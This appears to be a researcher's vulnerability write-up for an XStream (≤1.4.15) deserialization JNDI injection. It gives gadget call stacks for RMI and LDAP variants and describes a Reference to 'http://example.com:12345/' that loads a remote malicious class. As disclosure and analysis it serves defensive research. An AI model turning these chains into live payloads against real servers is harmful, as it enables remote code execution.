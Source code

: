 ```yaml
---
title: XStream <=1.4.15 Deserialization JNDI Injection
description: I found a chain a year ago, but the repair of several chains and I find the sink point and trigger toString point are different, this should be considered a new CVE, here to share out.
categories:
 - Vulnerability Analysis
tags:
 - XStream
 - Vulnerability Analysis
 - RCE
---
```



### *Screenshot of the proof of vulnerability recurrence*

![image.png]({{site.url}}/upload/2021-03-19-Stream-Deserialization-JNDI-Injection/5eEulOMzcxQqsX8.png)

#### *Scope of Impact*

XStream<=1.4.15

#### *Vulnerability Analysis*

I found a chain a year ago, but the repair of several chains and I find the sink point and trigger toString point are different, this should be considered a new CVE, here to share out.

Review the call stack of CVE-2020-26217

```java
com.thoughtworks.xstream.converters.collections.MapConverter#putCurrentEntryIntoMap
  java.util.HashMap#put
        java.util.HashMap#hash
            jdk.nashorn.internal.objects.NativeString#hashCode                com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data#toString                com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data#get                    com.sun.xml.internal.bind.v2.util.ByteArrayOutputStreamEx#readFrom                        java.io.SequenceInputStream#read(byte[], int, int)                        java.io.SequenceInputStream#nextStream                            javax.swing.MultiUIDefaults.MultiUIDefaultsEnumerator#nextElement                                javax.imageio.spi.FilterIterator#next                                javax.imageio.spi.FilterIterator#advance                                    javax.imageio.ImageIO.ContainsFilter#filter                                        java.lang.ProcessBuilder#start
```

The entry of `hashcode()->toString()` of `jdk.nashorn.internal.objects.NativeString` and the sink point `javax.imageio.ImageIO$ContainsFilter` are added to the blacklist.

But we can reuse `java.io.SequenceInputStream#nextStream` to find the new sink point.

![image.png]({{site.url}}/upload/2021-03-19-Stream-Deserialization-JNDI-Injection/4nF8ySVZBGHtaJU.png)

#### *RMI*

`com.sun.jndi.rmi.registry.BindingEnumeration`

![image.png]({{site.url}}/upload/2021-03-19-Stream-Deserialization-JNDI-Injection/VF52hkdfuHWqjwR.png)

Both `ctx` and `var2` are under our control, so JNDI injection is possible here. However, `ctx` is of type `com.sun.jndi.rmi.registry.RegistryContext`, so we can only hit rmi's JNDI injection.

#### *LDAP*

`com.sun.jndi.ldap.LdapBindingEnumeration#createItem`

![image.png]({{site.url}}/upload/2021-03-19-Stream-Deserialization-JNDI-Injection/cjvrhGMS8yfUw21.png)

`DirectoryManager.getObjectInstance` can load malicious classes by passing in `Reference` objects. `var6`, `this.homeCtx, this.homeCtx.envprops, var2` we can control, backtrack a bit to `var4`.

![image.png]({{site.url}}/upload/2021-03-19-Stream-Deserialization-JNDI-Injection/QI3ZCTUpL7Jh6eF.png)

Following up on `decodeReference`, since var0 in `decodeObject` is under our control, we can finally get the code into the `decodeReference` method, and all the parameters of `new Reference` are under our control, constructing new Reference(`" refClassName", "factoryClassName", "http://example.com:12345/"`) passed into `DirectoryManager.getObjectInstance` to load `http://example.com: 12345/` on the class named `factoryClassName.class,` the malicious code into the static code block can be arbitrary code `execution`.

![image.png]({{site.url}}/upload/2021-03-19-Stream-Deserialization-JNDI-Injection/rViMpc3ZqhWEwRT.png)

`com.sun.jndi.ldap.LdapBindingEnumeration` directly to `this.data` is not null, so I used `com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl` to indirectly call the `LdapBindingEnumeration#next` method.

![image.png]({{site.url}}/upload/2021-03-19-Stream-Deserialization-JNDI-Injection/SF3YztL1oMag2P9.png)

#### *Trigger toString()*

Then there is the `toString` entry, and after looking around all the classes for the `hashcode()` method there is no class that can trigger `toString`, as `SerializableConverter` supports calling the `readObject` method, provided the class implements the `java.io. Serializable` interface (properties of classes that do not implement it can still be assigned normally) and are not caught by the previous converter, so we can look for `readObject` methods of all classes.

![image.png]({{site.url}}/upload/2021-03-19-Stream-Deserialization-JNDI-Injection/9IurUOHykd1TGwB.png)

The more common ones are `javax.management.BadAttributeValueExpException#readObject`, but this class inherits from `Throwable` and will be restocked by the `ThrowableConverter` and cannot be `SerializableConverter` to parse.

![image.png]({{site.url}}/upload/2021-03-19-Stream-Deserialization-JNDI-Injection/gXzMPoJc8OneqNm.png)

So we need to find a new class, I found a chain that can be used for Java native deserialization to trigger `toString()`, here is not public, here are a few public CVEs used in the `toString` chain.

```java
java.util.PriorityQueue#readObject        
->java.util.PriorityQueue#heapify                
->java.util.PriorityQueue#siftDown                        
->java.util.PriorityQueue#siftDownUsingComparator                              ->javafx.collections.ObservableList#sorted()#compare()
```

![image.png]({{site.url}}/upload/2021-03-19-Stream-Deserialization-JNDI-Injection/5FWBEkZj8bSacAe.png)

However, this chain can only be used in XStream and not in Java native deserialization, because `javafx.collections.ObservableList`.



#### *Calling the stack*

RMI

```java
java.util.PriorityQueue#readObject    java.util.PriorityQueue#heapify        java.util.PriorityQueue#siftDown            java.util.PriorityQueue#siftDownUsingComparator              javafx.collections.ObservableList#sorted()#compare()                  com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data#toString                  com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data#get                  com.sun.xml.internal.bind.v2.util.ByteArrayOutputStreamEx#readFrom                      java.io.SequenceInputStream#read(byte[], int, int)                      java.io.SequenceInputStream#nextStream                          com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl#nextElement                              com.sun.jndi.rmi.registry.BindingEnumeration#next                                  RegistryContext.lookup
```

Ldap

```java
java.util.PriorityQueue#readObject    java.util.PriorityQueue#heapify        java.util.PriorityQueue#siftDown            java.util.PriorityQueue#siftDownUsingComparator              javafx.collections.ObservableList#sorted()#compare()                  com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data#toString                  com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data#get                  com.sun.xml.internal.bind.v2.util.ByteArrayOutputStreamEx#readFrom                     java.io.SequenceInputStream#read(byte[], int, int)                     java.io.SequenceInputStream#nextStream                         com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl#nextElement                             com.sun.jndi.ldap.AbstractLdapNamingEnumeration#next                                 com.sun.jndi.ldap.LdapBindingEnumeration#createItem                                     javax.naming.spi.DirectoryManager#getObjectInstance
```



#### *Author*

> *Smi1e@*WEBIN.LAB \- DBAPPSecurity

#### *Topic*

#XStream  #RCE #JNDI #Deserialization
